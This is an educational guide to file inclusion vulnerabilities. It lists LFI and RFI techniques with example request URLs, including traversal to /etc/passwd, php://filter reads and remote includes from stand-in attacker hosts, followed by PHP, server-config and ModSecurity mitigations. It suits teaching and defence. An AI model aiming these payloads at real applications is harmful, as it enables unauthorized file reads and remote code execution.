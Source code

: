 # File inclusion

File inclusion is a web vulnerability allowing attackers to include files on a server through a web application, potentially leading to unauthorized access, data exposure, or code execution.

## METHODS TO PEFORM FILE INCLUSION

## 1.Advanced Techniques for LFI
- ###Directory Traversal

Attackers can use directory traversal sequences (e.g., ../) to navigate the file system and include files outside the intended directory.
Example:
```text
http://example.com/page.php?file=../../etc/passwd
```
- ### Null Byte Injection

In some cases, attackers can exploit null byte (%00) injection to terminate strings in file paths, allowing them to bypass file extension checks.
Example:
```text
http://example.com/page.php?file=somefile.php%00.jpg
```
- ### Log File Inclusion

Attackers can include log files that contain user input, potentially leading to code execution if the input is malicious.
Example:
```text
http://example.com/page.php?file=/var/log/apache2/access.log
```
- ### PHP Wrapper Exploitation

Attackers can use PHP wrappers (e.g., php://filter, php://input) to read files or execute code.
Example:
```text
http://example.com/page.php?file=php://filter/convert.base64-encode/resource=index.php
```
- ### File Inclusion via Session Variables

If the application uses session variables to determine file paths, attackers can manipulate these variables to include arbitrary files.
Example:
```text
// Set session variable to include a sensitive file
$_SESSION['file'] = '../../etc/passwd';
```
## 2.Advanced Techniques for RFI
- ### Remote File Inclusion

Attackers can include files from remote servers if the application does not validate the source of the file.
Example:
```text
http://example.com/page.php?file=http://malicious.com/malicious.php
```
- ### Using Local Files as a Proxy

Attackers can host a malicious file on their server and trick the application into including it by using a local file as a proxy.
Example:
```text
http://example.com/page.php?file=http://localhost/malicious.php
```
- ### Exploiting Misconfigured Servers

If a server is misconfigured to allow file uploads, attackers can upload a malicious file and then include it.
Example:
```text
// Upload a file named malicious.php
http://example.com/upload.php?file=malicious.php
```
- ### Using Protocols

Attackers can exploit different protocols (e.g., FTP, HTTP) to include files from remote locations.
Example:
```text
http://example.com/page.php?file=ftp://attacker.com/malicious.txt
```
- ### DNS Rebinding

Attackers can use DNS rebinding to trick the application into including files from a malicious server that appears to be a trusted domain.
Example:

An attacker sets up a domain that resolves to their server and then uses it in the RFI payload.

## MITIGATION FOR FILE INCLUSION

### 1️⃣ Use a Whitelist for Allowed Files
✅ Restrict file inclusion to specific files only.

🔹 Example (PHP) - Safe Whitelisting:

```text
$allowed_files = ['header.php', 'footer.php', 'sidebar.php'];
$file = $_GET['page']; // User-controlled input

if (in_array($file, $allowed_files)) {
    include $file;
} else {
    die("Access Denied");
```
✅ Why? Prevents attackers from including arbitrary files like /etc/passwd or ../../../../../etc/passwd.

### 2️⃣ Avoid Direct User Input in File Paths
❌ Bad Example (Vulnerable to LFI & RFI)
```text
include $_GET['page']; // Allows attackers to specify any file
```
✅ Secure Alternative (Using a Fixed Path)
```text
$file = basename($_GET['page']); // Removes directory traversal attempts
$path = "includes/" . $file . ".php"; // Ensures file exists in a secure folder

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid file!");
}
```
✅ Why? Ensures only pre-defined files in the includes/ directory are allowed.

### 3️⃣ Disable allow_url_include in PHP (Prevents RFI)
If using PHP, disable remote file inclusion by setting this in php.ini:
```text
Edit
allow_url_include = Off
allow_url_fopen = Off
```
✅ Why? Prevents remote files from being included (e.g., http://attacker.com/shell.php).

### 4️⃣ Implement Proper Input Validation & Sanitization
✅ Remove dangerous characters to prevent directory traversal (../, %00, \, /, :).

🔹 Example (PHP) - Secure Input Handling
```text
$file = $_GET['page'];
$file = preg_replace('/[^a-zA-Z0-9_\-]/', '', $file); // Allow only alphanumeric, underscores, and hyphens
$path = "includes/" . $file . ".php";

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid Request");
}
```
✅ Why? Removes special characters used in directory traversal attacks.

### 5️⃣ Restrict File Permissions & Disable Execution
✅ Prevent execution of uploaded files in directories like /uploads/.

🔹 For Apache (Prevent PHP Execution in Uploads Directory)
Add this to .htaccess:
```text
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```
✅ Why? Prevents attackers from executing malicious PHP files in /uploads/.

🔹 For Nginx (Restrict PHP Execution in Uploads)
```text
location /uploads {
    location ~* \.php$ {
        deny all;
    }
}
```
✅ Why? Blocks execution of .php files in the /uploads directory.

### 6️⃣ Use Secure File Handling Functions
Instead of using include, use secure file handling functions like file_get_contents() with strict validation.

🔹 Example (PHP) - Using file_get_contents Securely
```text
$allowed_files = ['about.txt', 'contact.txt'];
$file = $_GET['file'];

if (in_array($file, $allowed_files)) {
    echo file_get_contents("safe_directory/" . $file);
} else {
    die("Invalid file request");
}
```
✅ Why? Prevents directory traversal and limits file access.

### 7️⃣ Monitor Logs & Set Alerts
✅ Monitor logs for LFI & RFI attack attempts (e.g., ../../, %00, http://).

🔹 Example (Linux - Monitor Access Logs for LFI Patterns)
```text
grep -E '(\.\./|%00|http://)' /var/log/apache2/access.log
```
✅ Why? Helps in detecting attacks in real-time and setting alerts.

### 8️⃣ Web Application Firewall (WAF) & ModSecurity Rules
✅ Deploy WAF rules to block LFI & RFI patterns.

🔹 Example (ModSecurity Rules - Block LFI & RFI Patterns)
```text
SecRule REQUEST_URI "@rx (\.\./|%00|/etc/passwd)" "id:1234,deny,status:403,msg:'Possible LFI Attack'"
SecRule ARGS "@rx (https?://)" "id:1235,deny,status:403,msg:'Possible RFI Attack'"
```
✅ Why? Blocks common LFI & RFI attack patterns automatically.



